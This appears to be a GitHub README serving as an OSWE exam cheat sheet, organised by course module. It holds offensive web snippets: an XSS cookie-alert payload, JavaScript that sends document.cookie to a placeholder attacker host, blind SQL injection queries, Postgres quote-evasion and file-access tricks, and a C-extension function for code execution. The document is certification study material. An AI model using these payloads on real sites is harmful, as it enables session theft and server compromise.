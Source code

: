 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("POST", url, true)<br>
    #xhr.send(data)<br>
    
6. XHR GET Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("GET", url, true)<br>
    #xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    #nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            #[mysqld]<br>
            #general_log_file = /var/log/mysql/mysql.log<br>
            #general_log = 1<br>
    #systemctl restart mysql        //Restart MySQL<br>
    #tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    #nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    #systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    #echo "any message";<br>
    
4. Dump information about varaible<br>
    #var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    #grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    #var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    #mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    #mysql> select ascii(substring((select version()),1,1))=53;  /** use with "or" boolean **/<br>
    
8. Create ZIp file using Python2 <br>
    #!/usr/bin/python <br>
    #import zipfile <br>
    #from cStringIO import StringIO<br>

    #def build_zip():<br>
        #f = StringIO()<br>
        #z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)<br>
        #z.writestr('folder/file.txt', 'secret')<br>
        #z.close()<br>
        #zip = open('zip.zip','wb')<br>
        #print f.getvalue()<br>
        #zip.write(f.getvalue())<br>
        #zip.close()<br>
    
    #build_zip()<br>

Module : PHP Type Juggling Vulnerability : 
1.  Configure SMTP Server<br>
    #sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & /* & for run in background */<br>
    
Module : ManageEngine Application Manager AMUserResourcesSyncServlet SQL(Postgres) Injection & RCE : <br>
1.  web.xml determine how URLs mapped<br>
2.  Tool JD-GUI use to decompile java<br>
3.  Find SQL injection vulnerability using below regular expression<br>
        ^.*?query.*?select.*?<br>
4.  Enable postgres logging by uncommenting below line in postgresql.conf file<br>
        log_statement = 'all'<br>
5.  postgre cli
        psql -U username -p 15432  /* p=port, /<br>
6.  Alternative of single quote(') is duble doller sign($$)<br>
7.  decode string in postgres<br>
        select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');<br>
8.  Using CHR and String Concatenation<br>
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);<br>
9.  Accessing the File System in postgres<br>
        COPY <table_name> from <file_name><br>
        COPY <table_name> to <file_name><br>
10. PostgreSQL Extensions<br>
        CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
        
    

    
